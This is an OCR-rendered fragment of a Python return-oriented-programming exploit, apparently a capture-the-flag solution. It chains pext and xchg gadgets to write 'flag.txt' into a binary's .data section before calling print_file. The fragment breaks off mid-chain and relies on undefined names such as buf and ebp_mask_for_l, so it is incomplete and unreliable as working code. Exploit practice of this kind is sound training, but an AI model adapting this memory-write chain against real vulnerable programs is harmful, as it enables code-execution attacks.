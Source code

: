 ```python
ebp_mask_for_f = b"\x4B\x4B\x00\x00"
ebp_mask_for_a = b"\x46\x5d\x00\x00"
ebp_mask_for_g = b"\x5a\x4b\x00\x00"
ebp_mask_for_dot = b"\xdb\x05\x00\x00"
ebp_mask_for_t = b"\xcd\x4a\x00\x00"
ebp_mask_for_x = b"\xc5\x5a\x00\x00"


# get address of .data section header. This is a writeable section of memory
# where we can write "flag.txt"
# once it is written to this address in memory, we'll be able to pass it into the print_file fxn
data_header_address = p32(elf.symbols["data_start"])    
data_header_address_big_endian = p32(elf.symbols["data_start"], endian='big')

data_header_char_1 = data_header_address_big_endian 
data_header_char_2 = p32(elf.symbols["data_start"] + 1, endian='big')
data_header_char_3 = p32(elf.symbols["data_start"] + 2, endian='big')
data_header_char_4 = p32(elf.symbols["data_start"] + 3, endian='big')
data_header_char_5 = p32(elf.symbols["data_start"] + 4, endian='big')
data_header_char_6 = p32(elf.symbols["data_start"] + 5, endian='big')
data_header_char_7 = p32(elf.symbols["data_start"] + 6, endian='big')
data_header_char_8 = p32(elf.symbols["data_start"] + 7, endian='big')

print_file_fxn_addr = p32(elf.symbols["print_file"])

payload = [
        buf,                                # bunch of A's
        ebp_mask_for_f,                     # 0x4b4b masked with 0xb0bababa = 0x66 = "f"
        pext_rop_gadget,                    # address of our "pext" ROP gadget
        pop_ecx_xchg,                       # addr of ROP gadget to pop ecx, and flip it's endian-ness
        data_header_address_big_endian,     # address of data header in big endian...
                                            # this is a region of writeable memory that we can store 
                                            # our string "flag.txt" in
        xchg_ecx_dl,                        # addr of ROP gadget to put dl into [ecx]


        # insert the "l"
        pop_ebp_gadget,
        ebp_mask_for_l,
        pext_rop_gadget,
        pop_ecx_xchg,
        data_header_char_2,
        xchg_ecx_dl,

        # insert the "a"
        pop_ebp_gadget,
        ebp_mask_for_a,
        pext_rop_gadget,
        pop_ecx_xchg,
        data_header_char_3,
        xchg_ecx_dl,
        
        # insert the "g"
        pop_ebp_gadget,
        ebp_mask_for_g,
        pext_rop_gadget,
        pop_ecx_xchg,
        data_header_char_4,
        xchg_ecx_dl,

        # insert the "."
```